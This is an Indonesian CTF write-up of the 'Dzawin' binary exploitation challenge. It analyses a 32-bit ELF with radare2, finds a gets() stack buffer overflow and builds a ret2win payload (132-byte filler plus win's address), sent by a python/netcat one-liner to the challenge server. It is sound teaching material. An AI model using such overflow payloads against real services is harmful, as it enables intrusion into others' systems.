


# Dzawin

**Kategori**: Binary Exploitation  
**Flag**: `scsc26{r3st2w1n_f0r_fun_4nd_pr0v1t}`

---
## Deskripsi Challenge

> Diberikan sebuah file bernama `stack`. Peserta diminta mengeksploitasi service yang berjalan pada:
> 
> ```bash
> nc 43.128.69.211 13005
> ```
> 
> Flag disimpan di file `flag.txt` pada server.

Berkas:

- `stack` – ELF 32-bit (not stripped), program yang dijalankan oleh service.

---
## Analisis Singkat

Analisis awal:

  
```bash
strings stack | grep -i flag
# flag.txt
```

Section `.rodata` berisi string berikut:
  

```text
7200666c 61672e74 78740000 4572726f ...
 r  f  l  a  g  .  t  x  t
```

Hal ini mengindikasikan adanya fungsi yang membuka `flag.txt`.

Dari simbol:

```bash
nm -n stack | grep -E "win|vuln|main"
# 080491c2 T win
# 0804921f T vuln
# 08049238 T main
```

Analisis lebih lanjut dilakukan dengan **radare2**:

```bash
r2 -A stack
pdc @ sym.vuln
pdc @ sym.win
```

Hasil dekompilasi (ringkas):

- `sym.vuln`:
    
    ```c
    int vuln(void) {
        char buf[0x80];      // 128 byte
        gets(buf);           // input tanpa batas -> buffer overflow
        return 0;
    }
    ```
    
- `sym.win`:
    
    ```c
    int win(void) {
        FILE *f = fopen("flag.txt", "r");
        if (!f) {
            perror("Error while opening the file.");
            exit(1);
        }
        int c;
        while ((c = fgetc(f)) != EOF)
            putchar(c);
        return 0;
    }
    ```
    

Dengan demikian, challenge ini merupakan kasus klasik **stack buffer overflow (ret2win)**: overflow pada `vuln()` dimanfaatkan untuk mengalihkan alur eksekusi ke `win()` yang membaca `flag.txt`. Flag menggunakan format standar `scsc26{...}`.

```asm
0804921f <vuln>:
  push   ebp
  mov    ebp,esp
  sub    esp,0x80        ; buffer 128 byte
  lea    eax,[ebp-0x80]
  push   eax
  call   gets@plt        ; overflow
  leave
  ret
```
---
## Proses Penyelesaian

Langkah penyelesaian dengan fokus pada penggunaan **radare2**:

1. **Identifikasi fungsi penting**
    
    ```bash
    r2 -A stack
    afl                    # daftar fungsi
    ```
    
    Terlihat fungsi `sym.vuln` dan `sym.win`. Dekompilasi:
    
    ```bash
    pdc @ sym.vuln
    pdc @ sym.win
    ```
    
    Dari `pdc @ sym.vuln` terlihat adanya buffer lokal 128 byte dan pemanggilan `gets()`. Dari `pdc @ sym.win` terlihat pemanggilan `fopen("flag.txt", "r")`, `fgetc()`, dan `putchar()`.
    
2. **Hitung offset overflow**
    
    Dari dekompilasi/assembly `vuln`:
    
    - `sub esp, 0x80` → alokasi buffer 128 byte (`buf[0x80]`).
        
    - Di stack, layout standar: `buf[128]` → saved EBP (4 byte) → RET (4 byte).
        
    
    Sehingga offset dari awal buffer ke return address:
    
    ```text
    128 (buffer) + 4 (saved EBP) = 132 byte
    ```
    
3. **Tentukan alamat target**
    
    Dari `nm`:
    
    ```text
    080491c2 T win
    ```
    
    Alamat `win` = `0x080491c2`. Pada arsitektur little-endian, nilai ini dikirim sebagai:
    
    ```text
    \xc2\x91\x04\x08
    ```
    
4. **Susun payload ret2win**
    
    Struktur payload:
    
    - 132 byte filler (misalnya `"A"`).
        
    - Diikuti 4 byte alamat `win` (little-endian).
        
    - Diakhiri newline (`\n`) agar `gets()` berhenti membaca.
        
    
    Secara konseptual:
    
    1. Kirim `b"A"*132` → mengisi buffer dan menimpa saved EBP.
        
    2. Kirim `b"\xc2\x91\x04\x08"` → mengganti RET dengan alamat `win`.
        
    3. Saat `vuln()` melakukan `ret`, eksekusi lompat ke `win()`.
        
5. **Eksploitasi service**
    
    Payload dikirim ke service remote menggunakan netcat:
    
    ```bash
    python3 -c 'import sys; sys.stdout.buffer.write(
        b"A"*132 + b"\xc2\x91\x04\x08\n"
    )' | nc 43.128.69.211 13005
    ```
    
    Service menjalankan `stack`, `gets()` pada `vuln()` membaca input kita, terjadi buffer overflow, return address ditimpa alamat `win`, dan `win()` mencetak isi `flag.txt` sebagai flag.

---
## Flag

```text
scsc26{r3st2w1n_f0r_fun_4nd_pr0v1t}
```